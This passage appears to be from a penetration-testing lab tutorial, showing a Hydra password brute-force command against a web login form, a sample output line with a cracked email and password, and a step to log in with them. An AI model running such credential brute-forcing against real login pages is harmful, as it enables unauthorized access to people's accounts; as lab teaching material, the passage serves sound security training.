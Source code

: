 ```bash
sudo hydra -L /home/user/emails.txt -P /home/user/Desktop/password.txt ocie.biz http-post-form "/Home/Login:username=^USER^&password=^PASS^:Invalid email or password"
```
The returned results should look similar to the following:

`[80][http-post-form] host: ocie.biz   login: Yasmine.VonRueden@jay.net   password: 6_~vB5?@*qMm;`

<img src="./img/c13-09.PNG" />

Confirm you can login with these credentials at: `http://ocie.biz/Home/Login`.

<img src="./img/c13-10.PNG" />

<img src="./img/c13-11.PNG" />
